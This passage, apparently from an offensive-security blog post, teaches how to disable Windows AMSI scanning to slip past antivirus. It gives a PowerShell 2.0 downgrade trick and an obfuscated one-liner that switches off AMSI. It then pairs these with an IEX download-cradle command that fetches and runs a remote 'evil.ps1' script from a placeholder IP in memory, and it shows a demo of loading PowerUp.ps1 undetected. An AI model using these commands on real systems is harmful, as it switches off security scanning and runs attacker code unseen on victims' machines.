 - Powershell downgrading

This one is really trivial, you just need to use an older powershell version like **2.0** so AMSI do not scan memory, you can do this by executing:

```powershell
powershell -version 2.0
```

Personally I do not recommend this technique because a lot of scripts and functions do not support Powershell 2.0 version

- One-liner

My favourite and probably the best choice is a simple one-liner with a lot of obfuscation to avoid beeing detected by the same **AMSI**, just execute this:

```powershell
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```

**If any of the methods is detected by the AV you could try to obfuscate the script or code with the mentioned tricks about powershell obfuscation**

### How can this help us to bypass AVs?

If we put all this information and techniques together we can use the desired method to bypass AMSI (in this case we will use the one-liner) and then we load in memory the script we want to import using the classic IEX command

```powershell
IEX(New-Object Net.WebClient).downloadString("http://IP:PORT/evil.ps1")
```

If we execute that once we have bypassed/deactivated the AMSI, it will not be flagged by the Defender, here you have a *POC*

## Demo

This video shows you how I was able to load and execute in memory **PowerUp.ps1** from **PowerShell Mafia** in a Windows machine with the AV up to date.

<video src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/obfuscation/bypassing-demo.mp4"></video>

## Tools

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) by *Daniel Bohannon*

[Chimera](https://github.com/tokyoneon/Chimera) by *TokyoNeon*

## References

```
https://www.cynet.com/attack-techniques-hands-on/powershell-obfuscation-demystified-series-chapter-1-intro/
https://www.danielbohannon.com/blog-1/tag/Obfuscation
https://www.blackhat.com/docs/us-17/thursday/us-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And%20Evasion-Using-Science.pdf
https://helloitsliam.com/2018/03/21/obfuscating-powershell-commands/ https://medium.com/@SecureTacticsTS/simple-but-effective-powershell-obfuscation-techniques-b38900d8f7dd
https://www.varonis.com/blog/powershell-obfuscation-stealth-confusion-part-ii
```
